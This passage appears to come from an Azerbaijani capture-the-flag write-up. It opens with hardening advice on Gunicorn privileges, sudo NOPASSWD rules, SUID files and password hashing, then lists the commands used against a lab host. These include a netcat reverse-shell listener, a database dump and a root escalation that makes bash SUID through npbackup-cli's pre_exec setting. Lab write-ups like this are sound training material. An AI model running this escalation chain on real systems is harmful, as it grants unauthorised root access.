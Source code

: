 2. **Tətbiq serverinin (Gunicorn) üzərində çalışdırılan kodu minimum hüquqlarla idarə edin**

   * Veb proseslər `unprivileged` (məs. `nobody` və ya xüsusi, məhdud bir istifadəçi) altında işləməlidir; bu, hər hansı RCE aşkar ediləndə təsiri məhdudlaşdırır.

3. **Konfiqurasiya fayllarını və `pre_exec` kimi alternativ plug-in imkanlarını güvənli edin**

   * Konfiq fayllarından `root` kontekstində əmrlər icra edilməsinə icazə verilməməlidir; əgər lazımdırsa, girişi məhdudlaşdırın və yalnız whitelist-lənmiş əmrləri çalışdırın.

4. **NOPASSWD ilə verilən `sudo` qaydalarını yoxlayın**

   * `NOPASSWD` ilə verilən icazələr yalnız zəruri olduqda və məhdudlaşdırılmış ekzekutablara tətbiq olunmalıdır. `/usr/local/bin/npbackup-cli` kimi proqramlar `root` kimi əmrlər icra edə bilməməlidir və input valide edilməlidir.

5. **SUID fayllara nəzarət**

   * Sistemdə həddindən artıq SUID faylların olub-olmadığını yoxlayın və şübhəli SUID-ləri təmizləyin.

6. **Parolların hash-lənməsi və qorunması**

   * Hash üçün güclü hashing (bcrypt/scrypt/argon2) istifadə edin, sadə MD5 kimi zəif hashing metodlarından çəkinin.

---

## 9. Bütün istifadə olunmuş əmrlər (qısa siyahı)

Ən əsas əmrlərin xülasəsi:

```bash
# Recon
nmap -sV 10.10.11.82

# RCE endpoint-ə payload göndərmək (misal)
curl -s -X POST -H "Content-Type: application/json" \
  -d '{"code": " ... payload ... "}' \
  http://10.10.11.82:8000/run_code

# Netcat listener
nc -lvnp 4444

# SQLite DB ilə işləmək
sqlite3 users.db
.tables
.schema user
SELECT * FROM user;

# SSH ilə daxil olma
ssh marco@10.10.11.82

# Sudo icazələrini yoxlamaq
sudo -l

# Konfiq faylını kopyalama və dəyişiklik
cp npbackup.conf root.conf
# (edit root.conf -> set pre_exec_commands: ["chmod 4755 /bin/bash"])

# npbackup-cli ilə işə salma (NOPASSWD olduğu üçün parolsuz)
sudo /usr/local/bin/npbackup-cli -c root.conf -b

# SUID bash ilə root shell
/bin/bash -p
```
